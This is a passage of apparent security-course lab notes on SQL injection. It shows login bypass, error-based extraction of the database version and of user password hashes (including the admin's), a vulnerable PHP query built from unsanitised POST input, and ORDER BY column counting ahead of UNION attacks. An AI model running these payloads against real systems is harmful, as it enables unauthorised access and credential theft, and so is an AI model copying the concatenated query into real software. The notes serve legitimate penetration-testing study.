     ```
    offsec' OR 1=1 -- //
    ```
    ![image](https://hackmd.io/_uploads/Bknx844Xkl.png)
    > received an Authentication Successful message, meaning that our attack succeeded

2. Check DB version
    ```
    ' or 1=1 in (select @@version) -- //
    ```          
    ![image](https://hackmd.io/_uploads/ryxGc4VQkg.png)
    > This means that we should **only query one column at a time**.

3. Grab only the password column
    ```
    ' or 1=1 in (SELECT password FROM users) -- //
    ```
    ![image](https://hackmd.io/_uploads/BJb_q4VXJe.png)
    > 1. retrieve all user password hashes
    > 2. But don't know which user each password hash corresponds to
    > 3. solve the issue by adding a WHERE clause
4. WHERE clause
    ```
    ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
    ```
    ![image](https://hackmd.io/_uploads/HJm_2EE7kl.png)

#### - UNION-based Payloads
The UNION keyword aids exploitation because it enables the execution of an `extra SELECT statement and provides the results in the same query`.
>[!Warning]
> 1. The injected UNION query has to include the same number of columns as the original query.
> 2. The data types need to be compatible between each column.

Vulnerable SQL Query
```php
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```
![image](https://hackmd.io/_uploads/HJgV5gU4Xye.png)
> click SEARCH to retrieve all data from the customers table

>[!Note]
we need to know the exact number of columns present in the target table.

1. Verifying the exact number of columns
```
' ORDER BY 1-- //
' ORDER BY 2-- //
...
' ORDER BY 6-- //
```
![image](https://hackmd.io/_uploads/H1_QWUVmye.png)
> we'll discover that the table has `five columns` since ordering by **column six returns an error**. 
            